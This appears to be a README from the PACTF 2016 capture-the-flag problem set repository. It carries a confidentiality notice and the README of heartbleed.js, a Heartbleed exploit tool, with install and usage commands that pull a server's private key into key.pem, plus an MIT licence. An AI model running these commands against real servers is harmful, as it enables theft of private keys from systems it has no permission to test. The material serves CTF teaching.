 # PACTF Problem Set 2016
This repository contains the 2016 PACTF problem set.

You must agree to the 'Confidentiality Warning' and the 'Contributor Agreement', as specified below. Otherwise, you must immediately remove your access to this repository, destroy all copies of information obtained from this repository, and notify us immediately at contact@pactf.com.

## Confidentiality Warning
This repository contains confidential and proprietary information. The unauthorized possession, use, reproduction, distribution, display or disclosure of material in this repository is prohibited. The information contained in this repository should not be disclosed or reproduced in whole or in part, except as part of the PACTF.com website for the sole purpose of facilitating the necessary operations of the PACTF competition.

## Contributing
By contributing to this repository, you understand and fully accept our [Contributor Agreement](CONTRIBUTING.md).


## Heartbleed

Extracting server private key using [Heartbleed][0] OpenSSL vulnerability.

NOTE: Pointing this tool at other people's servers is illegal in most countries.

### How to use

```bash
$ npm install -g heartbleed.js
$ heartbleed
Options:
  --host         [required]
  --port         [default: 443]
  --concurrency  [default: 1]

Missing required arguments: host

$ heartbleed -h cloudflarechallenge.com -c 1000 >> key.pem
```

Protip, use cheap ciphers:

```bash
heartbleed -h cloudflarechallenge.com -c 1000 --ciphers="AES128-SHA" >> key.pem
```

#### LICENSE

This software is licensed under the MIT License.

Copyright Fedor Indutny, 2014.

Permission is hereby granted, free of charge, to any person obtaining a
copy of this software and associated documentation files (the
"Software"), to deal in the Software without restriction, including
without limitation the rights to use, copy, modify, merge, publish,
distribute, sublicense, and/or sell copies of the Software, and to permit
persons to whom the Software is furnished to do so, subject to the
following conditions:

The above copyright notice and this permission notice shall be included
in all copies or substantial portions of the Software.

THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS
OR IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF
MERCHANTABILITY, FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN
NO EVENT SHALL THE AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM,
DAMAGES OR OTHER LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR
OTHERWISE, ARISING FROM, OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE
USE OR OTHER DEALINGS IN THE SOFTWARE.

[0]: http://heartbleed.com/
